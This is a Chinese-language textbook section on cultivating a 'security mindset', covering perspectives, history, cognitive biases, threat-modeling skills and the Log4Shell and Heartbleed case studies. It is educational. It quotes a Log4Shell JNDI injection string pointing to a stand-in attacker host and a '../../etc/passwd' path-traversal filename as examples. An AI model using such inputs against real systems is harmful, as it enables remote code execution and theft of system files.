




## 一、什么是安全思维

> **安全思维核心流程图**

安全思维是一种系统性的认知框架，它要求我们以攻击者的视角审视系统，以防御者的立场构建防护，以研究者的深度理解本质。这不是一种简单的"想坏事"的习惯，而是一套完整的分析方法论。在网络安全领域，拥有安全思维的人和没有安全思维的人之间的差距，远比掌握工具熟练度的差距更大——它决定了你是在"做事"还是在"做对的事"。

### 1.1 安全思维的定义

安全思维可以定义为：**在面对任何系统、协议、流程或设计时，本能地思考"这里可能出什么问题"的能力**。这种思维模式包含几个核心要素：

- **怀疑精神**：不盲信任何默认配置、官方文档或表面现象。怀疑精神不是无端的猜忌，而是一种经过训练的认知习惯——在确认安全之前，默认假设存在风险。当你看到一个 API 端点返回了"成功"响应，安全思维会促使你追问：这个成功是真正的成功，还是错误处理逻辑的缺陷？返回的数据是否包含了不应该暴露的信息？调用者是否真的被正确鉴权了？
- **边界意识**：关注系统边界、权限边界、信任边界上的薄弱点。系统中绝大多数高危漏洞都发生在边界位置——不同组件之间的接口、不同权限级别之间的转换点、不同信任域之间的数据传递。边界意识意味着你在看一个系统时，首先关注的不是各个组件内部的实现，而是它们之间的连接处。
- **完整性思考**：不仅考虑正常流程，更关注异常流程和边缘情况。正常流程通常经过了充分的测试，而异常流程往往是安全漏洞的温床。一个文件上传功能在正常情况下工作良好，但如果上传了一个名为 `../../etc/passwd` 的文件会怎样？如果上传了一个 10GB 的文件呢？如果同时发送了 10000 个上传请求呢？完整性思考要求你穷举这些"如果"。
- **攻击面感知**：能够识别和评估系统暴露的攻击面。攻击面（Attack Surface）是指系统中所有可被外部实体访问和交互的点的总和——包括网络端口、API 接口、用户输入字段、文件系统路径、配置文件、日志输出等。攻击面感知能力使你能够在不深入分析具体漏洞的情况下，快速评估一个系统的风险水平。
- **信任推演**：沿着信任链追踪数据和权限的流转。安全思维的核心之一是理解"信任是如何传递的"——当系统 A 信任系统 B 的数据时，如果 B 被攻破，A 会受到什么影响？这种推演能力在分析复杂的分布式系统时尤为关键。

### 1.2 安全思维与普通思维的区别

普通程序员在编写代码时，通常关注的是"功能是否正确实现"。他们的思维路径是：

> 需求 → 设计 → 实现 → 测试功能是否正常

而具备安全思维的人在面对同一段代码时，思维路径是：

> 需求 → 设计 → 实现 → 测试功能是否正常 **→ 如果输入不正常会怎样？→ 如果有人故意构造恶意输入呢？→ 这段代码在什么上下文中被调用？→ 调用者是否可信？→ 输出会被如何使用？**

这种差异看似微小，但在实际的安全分析中会产生天壤之别。下面用一个具体的对比来说明：

**场景：开发一个用户注册功能**

| 思维维度 | 普通开发者 | 安全思维者 |
|---------|----------|----------|
| 输入验证 | 验证邮箱格式是否正确 | 邮箱字段能否注入 SQL/XSS？能否超长导致溢出？能否使用 Unicode 混淆绕过过滤？ |
| 密码处理 | 使用 bcrypt 哈希存储 | bcrypt 的 cost factor 设为多少？是否考虑了彩虹表攻击？密码策略是否阻止了常见弱密码？ |
| 数据库操作 | 使用 ORM 框架 | ORM 是否存在 N+1 查询导致信息泄露？原始 SQL 是否被意外拼接？数据库连接字符串是否硬编码？ |
| 错误处理 | 返回友好的错误提示 | 错误信息是否泄露了技术栈细节？不同用户名的错误信息是否不同（用户名枚举）？ |
| 会话管理 | 登录后创建 session | session ID 是否可预测？是否设置了 HttpOnly 和 Secure 标志？会话固定攻击如何防御？ |
| API 设计 | 提供 RESTful 接口 | 接口是否有速率限制？是否可被枚举？CORS 配置是否过于宽松？是否进行了批量注册防护？ |

**思维差异的根源**在于对"完成"的定义不同。普通开发者认为功能正确运行就是"完成了"，而安全思维者认为只有在考虑了各种攻击场景后才算"基本完成"——并且他们会持续追问"还有哪些我没想到的"。

### 1.3 三个视角：攻击者、防御者、研究者

安全思维并非单一的思维方式，而是三种不同视角的有机融合。每种视角都有其独特的关注点和方法论：

**攻击者视角（Red Team Thinking）**：攻击者视角的核心问题是"如何突破"。具备攻击者视角的人看到一个系统时，本能地寻找最薄弱的环节。他们关注的是：

- 系统的信任假设是否正确——系统假设了哪些输入是"可信的"？这些假设在什么情况下会被违反？
- 防御机制的盲区——防火墙、WAF、IDS 这些防护措施覆盖不到的地方在哪里？
- 逻辑漏洞——功能上看似正确，但业务逻辑上可以被绕过或滥用的路径
- 组合利用——单个低危漏洞如何与其他条件组合形成高危攻击链

**防御者视角（Blue Team Thinking）**：防御者视角的核心问题是"如何系统性地消除风险"。具备防御者视角的人关注的是：

- 纵深防御——单一防御措施失效后，是否有下一层保护？假设每一层都可能被突破。
- 安全基线——系统配置是否符合安全最佳实践？最小权限原则是否被执行？
- 监控与响应——能否在攻击发生的早期阶段检测到？发生入侵后的响应流程是什么？
- 安全左移——能否在设计阶段就消除安全问题，而不是在部署后才修补？

**研究者视角（Researcher Thinking）**：研究者视角的核心问题是"为什么"。具备研究者视角的人不仅关注一个漏洞能否被利用，更关注：

- 漏洞产生的根本原因——是设计缺陷、实现错误还是架构问题？
- 同类问题的普遍性——这个漏洞是孤立的个案，还是一类系统性问题的表征？
- 修复的理论基础——修复方案为什么有效？它是否真的解决了根本问题，还是只是封堵了一个利用路径？
- 未来演变——随着技术栈的演进（如新协议、新架构），同类问题会以什么新形式出现？

**三种视角的关系**：优秀的安全从业者需要在三种视角之间灵活切换。当你在做渗透测试时，以攻击者视角为主；当你在设计安全架构时，以防御者视角为主；当你在分析一个复杂漏洞的根本原因时，以研究者视角为主。更重要的是，这三种视角形成一个循环：攻击者视角发现的问题驱动防御者视角的改进，防御者视角中难以解决的问题需要研究者视角的深入分析，研究者视角的新发现又为攻击者视角提供新的方向。

### 1.4 安全思维的历史演进

安全思维并非一夜之间出现的概念，它伴随着计算机安全领域的发展经历了数十年的演变。理解这段历史有助于我们理解当前安全思维的形态为何如此。

**1960s-1970s：物理安全阶段**

早期的计算机安全主要关注物理层面——谁能进入机房、谁能接触终端。安全思维在这一阶段比较简单："限制物理访问 = 保障安全"。1967 年，Willis Ware 为美国国防部门撰写的报告《Computer Security》首次系统性地讨论了计算机安全问题，提出了"多级安全"的概念——这可以被视为安全思维的早期萌芽。

**1980s：密码学驱动阶段**

随着网络通信的普及，安全思维的焦点转向了密码学。人们开始意识到，仅仅限制物理访问是不够的——数据在传输过程中可能被截获。这一阶段的典型思维是："加密 = 安全"。Diffie-Hellman 密钥交换和 RSA 算法的出现为安全通信奠定了基础，但也暴露了一个关键问题：安全不仅仅依赖于算法的强度，还依赖于实现的正确性和密钥管理的可靠性。Robert Morris Sr. 在 1979 年的一次演讲中提出了"计算机安全中的渗透思维"概念，建议安全从业者应该尝试攻击自己的系统。

**1990s：网络防御阶段**

互联网的爆发式增长使安全思维从单机扩展到网络层面。防火墙、入侵检测系统（IDS）成为标准配置，"城堡护城河"模型成为主流防御思维——将网络划分为可信的内部和不可信的外部，用防火墙作为护城河。这一阶段诞生了诸多经典攻击方式：IP 欺骗、SYN 洪泛、DNS 投毒。安全思维开始意识到：网络协议本身可能存在设计缺陷，而不仅仅是配置问题。1995 年，SANS Institute 成立，开始系统性地推动安全思维的教育。

**2000s：应用安全阶段**

随着 Web 应用的普及，安全思维的重点从网络层转向应用层。SQL 注入、XSS、CSRF 等攻击方式的发现表明：即使网络层防护完善，应用代码中的逻辑缺陷仍然可以被利用。OWASP（开放式 Web 应用安全项目）在 2001 年成立，其发布的 Top 10 列表成为应用安全思维的事实标准。这一阶段的核心突破是"安全左移"理念的萌芽——与其在部署后修补漏洞，不如在开发阶段就预防漏洞。

**2010s：供应链与架构安全阶段**

高级持续性威胁（APT）攻击和供应链攻击（如 SolarWinds）迫使安全思维进一步升级。人们意识到：安全不仅仅是保护自己的系统，还需要保护整个供应链和生态。零信任架构（Zero Trust Architecture）在这一阶段从概念走向实践，标志着"永不信任、持续验证"成为新的安全思维范式。

**2020s：AI 与系统性安全阶段**

当前阶段的安全思维面临两个新的挑战：AI 系统的安全问题（如对抗样本、模型投毒、提示注入）和系统性风险的管理（如关键基础设施的安全）。安全思维正在从"保护单个系统"向"保护复杂生态系统"演进。

### 1.5 安全思维的心理学基础

安全思维之所以难以培养，部分原因在于它与人类的天然认知倾向存在冲突。理解这些心理因素有助于有意识地克服它们。

**正常化偏差（Normalcy Bias）**：人类倾向于认为事物会按照正常方式运行。当我们看到一个输入框时，我们本能地假设用户会输入正常的数据——一个邮箱地址、一个用户名、一个密码。安全思维要求你克服这种本能，强制自己思考"如果输入的不是正常数据会怎样"。

**信任偏误（Trust Bias）**：人类倾向于信任权威来源和已知系统。当官方文档说"这个配置是安全的"时，我们倾向于相信。当一个知名框架声称"安全地处理了用户输入"时，我们倾向于接受。安全思维要求你将"信任但验证"升级为"零信任，直到验证"。

**锚定效应（Anchoring Effect）**：在分析安全问题时，人们容易被第一个发现的漏洞锚定，忽略了可能更重要的其他问题。安全思维要求你在发现一个问题后，不要急于得出结论，而是继续系统性地分析整个攻击面。

**可得性启发（Availability Heuristic）**：人们倾向于根据最容易想到的信息来评估风险。最近发生的 Log4Shell 漏洞会让很多人重点关注日志框架的安全，而忽略同样严重但不太"出名"的问题。安全思维要求你使用结构化的框架（如 STRIDE）来系统性地评估风险，而不是依赖直觉。

**框架效应（Framing Effect）**：同一个安全问题，从不同的角度描述会导致不同的评估。"这个漏洞的利用需要 10 个前置条件"听起来很安全，但如果换成"这个漏洞在特定条件下可以完全接管系统"则显得很严重。安全思维要求你从攻击者的角度来评估漏洞的实际威胁，而不是从防御者的角度来低估风险。

> 关于这些认知偏误的深入分析和具体的应对方法，请参见本章理论基础部分的"第六节：认知偏误与安全思维"。

### 1.6 安全思维的构成要素

安全思维不是一个单一的能力，而是由多个相互关联的认知能力组成的复合体。理解这些构成要素有助于有针对性地进行训练：

**攻击面识别**是安全思维的基础。在分析任何系统之前，你需要首先明确"这个系统的哪些部分暴露给了外部"。攻击面识别不仅仅是列一个端口列表，它还包括：哪些数据流向外部？哪些接口接受外部输入？哪些组件依赖第三方服务？哪些配置对所有用户可见？一个经验丰富的安全工程师往往能在几分钟内对一个系统做出初步的攻击面评估——这并非超能力，而是大量训练后形成的职业直觉。

**威胁建模能力**是将攻击面识别的结果系统化的过程。当你知道系统的攻击面在哪里之后，你需要分析每一个攻击面上可能发生的威胁类型。STRIDE 模型（欺骗、篡改、抵赖、信息泄露、拒绝服务、权限提升）是威胁建模最常用的框架之一，它提供了一个结构化的检查清单，确保你不会遗漏重要的威胁类别。详细的 STRIDE 和 PASTA 威胁建模方法将在后续章节中深入讨论。

**逆向分析能力**是安全思维中最具创造性的部分。它要求你从一个安全事件的结果出发，反向推导出攻击者可能使用的路径和方法。这种能力在漏洞分析、事件响应和安全审计中都至关重要。例如，当你发现数据库中的数据被篡改了，逆向分析能力使你能从"数据被篡改"这个结果出发，推导出可能的攻击路径：是 SQL 注入？是权限配置错误？是备份恢复操作的误用？还是内部人员的恶意操作？

**系统分解能力**是将复杂系统拆解为可分析的组件和交互的过程。面对一个大型系统，你不可能同时分析所有部分。系统分解能力使你能将系统划分为若干个信任域，识别每个域之间的边界，然后聚焦于边界上的安全性分析。这就像建筑安全评估时不是检查每一块砖，而是重点检查承重墙、楼板连接处和地基。

**风险评估能力**是在识别出威胁之后进行优先级排序的能力。不是所有威胁都同等重要——一个需要国家级攻击资源才能利用的漏洞和一个任何人都能在浏览器中触发的 XSS，在修复优先级上是天壤之别。风险评估能力帮助你将有限的安全资源分配到最关键的地方。

**持续学习能力**是安全思维能够长期有效的保障。安全领域的攻击技术和防御手段都在持续演进，昨天的安全方案可能在今天就变成了安全隐患。持续学习能力不仅仅是阅读安全博客和跟踪 CVE，还包括从实际安全事件中提取经验教训、从其他行业（如航空安全、核安全）中借鉴方法论。

### 1.7 安全思维与其他相关概念的关系

在安全领域中，有几个概念经常与"安全思维"混淆或并列使用。厘清它们之间的关系有助于更精确地理解安全思维的定位。

**安全思维 vs 安全意识（Security Awareness）**

安全意识是指对安全风险的基本认知——知道不应该点击可疑链接、知道应该使用强密码、知道不应该在公共场所泄露敏感信息。安全意识是被动的、防御性的，面向的是所有使用计算机系统的人员。安全思维则是主动的、分析性的，面向的是安全专业人员和开发者——它不仅仅是"知道有风险"，更是"能够系统性地发现和评估风险"。打个比方：安全意识告诉你"过马路要注意安全"，安全思维则让你能够分析"这个路口的设计为什么容易发生事故，应该如何改进"。

**安全思维 vs 安全工程（Security Engineering）**

安全工程是将安全原则应用于系统设计和实现的工程学科。安全思维是安全工程的认知基础——你首先需要具备安全思维，才能有效地进行安全工程实践。安全工程更关注"怎么做"——如何设计安全的架构、如何编写安全的代码、如何配置安全的基础设施。安全思维更关注"怎么想"——如何识别问题、如何分析风险、如何评估方案。

**安全思维 vs 渗透测试（Penetration Testing）**

渗透测试是一种具体的实践活动，而安全思维是一种底层的认知能力。渗透测试是安全思维的一种应用场景——在渗透测试中，你需要运用攻击者视角来发现系统的弱点。但安全思维的应用远不止渗透测试：安全架构设计、代码审计、安全运营、风险评估、安全培训，这些都需要安全思维的支撑。

### 1.8 真实案例：安全思维如何发挥作用

为了更直观地理解安全思维的实际价值，我们来看两个案例。这些案例将在本章的"实战案例"部分进行更深入的分析，这里仅从安全思维的角度进行概述。

**案例一：Log4Shell 漏洞（CVE-2021-44228）**

2021 年 12 月，Apache Log4j 日志库被发现存在一个远程代码执行漏洞。攻击者只需在任何会被记录到日志的输入中注入 `${jndi:ldap://attacker.com/payload}` 字符串，就能触发 JNDI 查找并执行任意代码。

**为什么只有少数人提前发现了这个风险？** 因为大多数人看到 Log4j 时，思考的是"日志记录功能是否正常工作"——这是一个典型的普通思维路径。但安全思维者会追问更深层的问题：

1. Log4j 的日志记录功能在处理用户输入时，是否会对特殊格式进行解析？（是的，`$` 前缀触发了 Lookup 功能）
2. 这个解析功能是否支持远程协议调用？（是的，JNDI Lookup 可以发起网络请求）
3. 谁控制了被解析的字符串？（外部用户——通过 HTTP Header、用户名、搜索框等任何能被记录到日志的输入）
4. 如果这三者同时成立，这意味着什么？（远程代码执行）

具备安全思维的人在 Log4j 2.0 引入 Lookup 功能（2013 年）时，就有可能意识到这个设计存在风险。但当时的安全社区并未对此提出警告——因为大多数人只关注日志功能本身，而没有追踪这个功能引入的新的代码执行路径。

**案例二：Heartbleed（CVE-2014-0160）**

Heartbleed 是 OpenSSL 的心跳扩展（Heartbeat Extension）中的一个缓冲区读取漏洞。该漏洞允许攻击者读取服务器内存中的敏感数据，包括私钥、会话令牌和用户密码。

这个漏洞的技术原因是一个简单的编码错误——`memcpy` 函数在拷贝数据时没有正确检查请求中声明的数据长度。但安全思维者会问更深层的问题：

1. 为什么一个核心安全组件会包含这样简单的错误？（代码审查流程不够严格）
2. 为什么这个漏洞存在了两年多才被发现？（OpenSSL 项目缺乏足够的安全审计资源）
3. 这个案例暴露了开源软件供应链的什么系统性问题？（关键基础设施组件的安全保障不足）

Heartbleed 的教训不仅在于"需要正确验证输入长度"，更在于"信任边界的管理问题"——当你依赖一个加密库来保护通信安全时，你是否评估过这个库本身的安全性？这正是安全思维中的"信任推演"能力的体现。

### 1.9 安全思维的行业应用场景

安全思维不仅适用于传统网络安全，它的应用范围远比大多数人意识到的要广泛：

| 应用领域 | 典型场景 | 安全思维的具体体现 |
|---------|---------|-----------------|
| Web 应用安全 | 审计电商平台的用户系统 | 从认证→授权→会话管理→数据流的完整信任链分析 |
| 移动应用安全 | 审计银行 App 的通信安全 | 分析客户端与服务端之间的信任边界、本地存储的数据保护、反篡改机制 |
| IoT 安全 | 评估智能家居设备的风险 | 从固件→通信协议→云端 API→移动端 App 的全链路攻击面分析 |
| 云安全 | 评估多租户环境的隔离性 | 分析共享基础设施中的信任边界、身份与访问管理的配置风险 |
| 供应链安全 | 评估第三方组件的安全性 | 分析依赖链中的信任传递、构建过程的安全性、分发渠道的完整性 |
| AI/ML 安全 | 评估 LLM 应用的安全性 | 分析模型的输入验证、输出过滤、提示注入防护、数据泄露风险 |
| API 安全 | 审计开放平台的接口设计 | 分析认证授权机制、速率限制、数据暴露面、BOLA/BFLA 漏洞 |
| 基础设施安全 | 评估企业网络的安全架构 | 分析网络分段、横向移动路径、特权账户管理、应急响应能力 |

每个领域的具体技术不同，但底层的安全思维方式是通用的：识别攻击面、分析信任边界、评估威胁、优先级排序、验证防护有效性。这也解释了为什么一个在 Web 安全领域经验丰富的安全工程师，即使转向 IoT 或 AI 安全，也能快速上手——因为他的安全思维是可以迁移的。

### 1.10 自我评估：你目前的安全思维水平

在继续学习之前，建议你通过以下问题做一个快速的自我评估。这不是一个正式的测试，而是一个帮助你定位自己当前水平的参考：

**入门级（0-3 个"是"）**：你对安全思维的理解还停留在概念层面，尚未形成系统化的分析习惯。这是正常的——大多数人在这个阶段。后续的学习将帮助你建立基础。

**基础级（4-6 个"是"）**：你已经具备了初步的安全思维能力，能够在某些场景下识别安全问题。但分析可能不够系统化，容易遗漏。需要加强结构化框架的训练。

**进阶级（7-9 个"是"）**：你已经形成了比较成熟的安全思维习惯，能够在大多数场景下进行有效的安全分析。可以开始关注更深层的架构安全和系统性风险。

**专家级（10-12 个"是"）**：你已经具备了深厚的安全思维功底，能够从多个视角全面分析安全问题。后续可以关注安全研究和安全架构设计的高级主题。

评估问题：

1. 看到一个输入框时，你是否会本能地思考"这里可以注入什么"？（攻击面感知）
2. 你是否使用过 STRIDE 或类似的框架来系统性地分析一个系统？（威胁建模能力）
3. 你是否能从一个安全事件的结果出发，推导出可能的攻击路径？（逆向分析能力）
4. 你是否关注过系统的信任边界——哪些组件之间的数据传递是基于信任假设的？（信任推演）
5. 你是否了解过 OWASP Top 10 之外的安全风险？（完整性思考）
6. 你是否分析过安全事件的根本原因，而不只是表面的技术细节？（研究者视角）
7. 你是否能在设计阶段就识别潜在的安全问题？（安全左移意识）
8. 你是否考虑过自己系统的防御措施失效后的后果？（纵深防御思维）
9. 你是否关注过第三方组件和供应链的安全风险？（供应链意识）
10. 你是否定期跟踪安全领域的最新漏洞和攻击技术？（持续学习能力）
11. 你是否在代码审查时有意识地关注安全问题？（安全编码习惯）
12. 你是否能够评估一个安全漏洞的实际风险等级，而不是仅仅依赖 CVSS 评分？（风险评估能力）

### 1.11 常见误解澄清

在学习安全思维的过程中，许多人会形成一些不准确的理解。这里对几个最常见的误解进行澄清：

**误解一："安全思维就是总是想着最坏的情况"**

事实并非如此。安全思维不是灾难化思维（Catastrophizing），它不是让你觉得每个系统都处于即将崩溃的边缘。安全思维是一种结构化的风险评估过程——它帮助你识别哪些"最坏情况"是现实可行的威胁，哪些只是理论上存在但实际不太可能发生的场景。过度的悲观和过度的乐观一样有害——前者会导致安全投资浪费在低概率威胁上，后者会让高概率威胁被忽略。

**误解二："安全思维是天生的，有些人就是比别人更擅长"**

虽然某些认知特质（如好奇心、严谨性）确实有助于安全思维的培养，但安全思维本质上是一种可以通过训练获得的技能。就像学习编程一样，有些人可能上手更快，但任何人都可以通过系统化的练习掌握它。本章的"练习方法"部分将提供具体的训练方案。

**误解三："安全思维只对安全专业人员有用"**

事实恰恰相反。安全思维对所有参与软件开发生命周期的人员都有价值——开发者、架构师、产品经理、测试工程师、运维人员。一个具备安全思维的开发者能够在编码阶段就避免大量安全漏洞，这比安全团队在事后发现和修补漏洞高效得多。Gartner 的研究数据表明，在设计阶段修复安全问题的成本是在生产环境中修复的 1/100。

**误解四："有了好的安全工具就不需要安全思维了"**

工具是安全思维的延伸，而不是替代。自动化扫描工具能够检测已知的漏洞模式，但无法发现逻辑漏洞、设计缺陷和业务流程中的安全问题。一个具备安全思维的安全工程师使用工具时，知道工具能检测什么、不能检测什么，从而能够把精力集中在工具覆盖不到的地方。反过来，一个不具备安全思维的人即使拥有了市面上最好的安全工具，也只能发现表面的问题。

**误解五："安全思维会让开发变慢"**

短期内，安全思维确实会增加设计和编码阶段的时间投入。但从全生命周期来看，它实际上加速了交付——因为在设计阶段就预防安全问题，远比在测试阶段发现、在生产阶段修复要快得多。根据 IBM 的《数据泄露成本报告》，拥有成熟安全流程（包括安全思维驱动的威胁建模）的组织，平均数据泄露成本比没有的低 23%，数据泄露识别和遏制时间短 74 天。

### 1.12 本节核心要点

本节的核心结论可以归纳为以下几点：

1. **安全思维的本质**是一种系统性的认知框架，包含怀疑精神、边界意识、完整性思考、攻击面感知和信任推演五个核心要素。
2. **三种视角的融合**——攻击者视角、防御者视角和研究者视角构成了完整的安全思维方式。只有三种视角同时具备，才能形成真正有效的安全分析能力。
3. **安全思维是可训练的**，它不是天赋，而是一种通过系统化练习可以掌握的技能。理解其心理学基础有助于克服人类天然的认知偏误。
4. **安全思维与安全意识、安全工程、渗透测试**是不同层次的概念——安全思维是最底层的认知能力，支撑着所有其他安全实践。
5. **安全思维的通用性**使其价值超越任何单一技术领域——从 Web 安全到 AI 安全，底层的思维方式是相同的。

下一节将进入威胁建模（Threat Modeling）的详细讨论，这是将安全思维结构化、流程化的关键方法论。如果说安全思维是"怎么想"，那么威胁建模就是"按什么步骤系统性地想"。
